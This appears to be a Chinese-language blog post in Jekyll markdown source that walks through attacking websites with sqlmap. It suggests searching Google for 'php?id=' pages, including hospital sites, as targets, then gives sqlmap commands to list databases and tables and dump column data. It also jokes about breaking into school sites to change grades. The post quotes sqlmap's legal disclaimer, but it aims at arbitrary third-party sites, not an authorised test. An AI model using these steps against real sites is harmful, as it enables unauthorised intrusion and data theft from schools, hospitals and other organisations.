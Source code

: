 ```yaml
---
layout: post
title: 使用sqlmap执行SQL注入攻击
---
```


如果你不知道SQL注入攻击的原理是什么，看：[SQL注入攻击](http://topspeedsnail.com/hack-sql-injection-attack/)

sqlmap是开源的SQL注入自动攻击工具，它可以自动的探测SQL注入点并且进一步控制网站的数据库。

Kali Linux默认安装了这个工具。

![使用sqlmap执行SQL注入攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-08 at 18.26.46.png)

## 找到潜在的攻击目标

第一步是找到有SQL注入漏洞的网站。如果你没有特定攻击目标，可以使用[Google搜索](https://www.google.com/) php?id=1 （或php?id= ＋ xx系医院）：

找到结果中的url：

```
http://www.test.com/index.php?id=1
````

检测是否有SQL注入漏洞；在url后添加一个'符号，使用浏览器访问：

```
http://www.test.com/index.php?id=1'
````

如果网站没有SQL注入漏洞，使用上面的地址访问不会有问题。如果有SQL注入漏洞，会有错误输出：

![使用sqlmap执行SQL注入攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-08 at 15.17.44.png)

****

![使用sqlmap执行SQL注入攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-08 at 17.57.43.png)

中国很多企事业的网站都有漏洞，有很多学校网站的漏洞早已被发到了网上，这帮家伙也不修复。

入侵学校网站，修改成绩，有没有人想过:)。

关于使用sqlmap的法律问题：

> Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

## SQL注入

测试SQL注入：

{% highlight shell %}
# sqlmap -u http://www.test.com/index.php?id=1 --dbs
{% endhighlight %}

自动探测数据库类型和漏洞，如果成功会列出数据库：

![使用sqlmap执行SQL注入攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-08 at 18.58.24.png)

获得某个数据库中的表：

{% highlight shell %}
# sqlmap -u sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables
{% endhighlight %}

获得表的字段：

{% highlight shell %}
# sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns
{% endhighlight %}

下载某一字段的数据：

{% highlight shell %}
# sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns -C some_col --dump
{% endhighlight %}

更多选项，参考man手册：

{% highlight shell %}
# man sqlmap
{% endhighlight %}